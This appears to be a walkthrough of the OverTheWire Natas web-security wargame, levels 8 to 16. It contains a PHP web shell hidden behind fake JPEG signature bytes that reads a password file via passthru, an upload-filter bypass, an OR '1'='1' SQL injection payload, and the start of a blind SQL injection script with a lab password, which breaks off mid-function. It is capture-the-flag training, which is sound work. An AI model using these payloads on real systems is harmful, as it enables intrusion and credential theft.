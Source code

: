 # OverTheWire - Natas

## Level 8 -> 9

```sh
echo "encodedsecret" | xxd -r -p | rev | base64 -d
```

## Level 11 -> 12

A XOR B = C and C XOR B = A,

or Original_data XOR Key = Encrypted_data

and Original_data XOR Encrypted_data = Key.

## Level 13 -> 14

From PHP manual, [exif_imagetype()](https://www.php.net/manual/en/function.exif-imagetype.php) reads the first bytes of an image and checks its signature.
Images signatures can be found on <https://en.wikipedia.org/wiki/List_of_file_signatures>.

Add the signature bytes at the top of the file:

```sh
echo '\xFF\xD8\xFF\xEE' > hello.php
echo "<? passthru('cat /etc/natas_webpass/natas14') ?>" >> hello.php
```

Edit extension of filename submitted via hidden field in html to php and upload the file.

## Level 14 -> 15

Use SQL injection to generate this SQL Query: `SELECT * from users where username="whatever" and password="" OR "1"="1"`.

## Level 15 -> 16

Introduction to [Blind SQL Injection](https://owasp.org/www-community/attacks/Blind_SQL_Injection), here a boolean based one.

Retrieve the password by asking questions!

### Using custom script

```python
import urllib.request

from string import ascii_letters, digits
from urllib.request import HTTPBasicAuthHandler, HTTPPasswordMgrWithDefaultRealm

CHARS=ascii_letters + digits
URI='http://natas15.natas.labs.overthewire.org/?debug'

auth_handler = HTTPBasicAuthHandler(HTTPPasswordMgrWithDefaultRealm())
auth_handler.add_password(
	realm=None,
	uri=URI,
	user='natas15',
	passwd='AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J')
opener = urllib.request.build_opener(auth_handler)

def request(query):
	data = urllib.parse.urlencode({ 'username': f'{query}' })
	data = data.encode('ascii')
```